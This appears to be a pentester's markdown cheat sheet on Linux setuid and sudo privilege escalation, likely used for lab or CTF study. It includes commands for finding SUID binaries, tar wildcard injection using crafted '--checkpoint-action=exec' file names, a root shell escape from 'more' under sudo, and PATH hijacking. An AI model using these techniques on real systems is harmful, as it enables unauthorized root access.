 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - SETUID
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  ##### Using [shell_wildcards](hack/vulnerabilities/shell_wildcards.md) and tar  
  - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
   
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we just need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
       ```
- Use the following ![user_to_sudo](hack/shell/user_to_sudo.md) exploit 


##### Using `more` and `sudo` :
  - Let's take an example, with this sudo configuration :
      ```bash
      $ sudo -l
      [sudo] password for user: 
      Matching Defaults entries for user on PC1:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
      ```
  - User user may run the following commands on PC1:
     `(ALL : NOPASSWD) /usr/bin/more /var/log/apache2/access.log`

  - In this case user can run the more command, but only to read a specific log file /var/log/apache2/access.log as root without password (NOPASSWD flag) :
     `sudo -u root /usr/bin/more /var/log/apache2/access.log`

  - You can assume this would be safe right ? Unfortunately, it's not. The more command has various useful options, one of them is !. When you're in more and you type an exclamation mark followed by the path to a binary file, you can execute it in a subprocess. For example if you type !/bin/sh in more, you will open a shell as the owner of the parent more process !:

     ```bash
      $ sudo -u root /usr/bin/more /var/log/apache2/access.log
      File content line 1
      File content line 2
      ...
      File content line n
      ------------------------
      !/bin/sh
      # 
      uid=0(root) gid=0(root) groups=0(root)
      #
      ```

### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
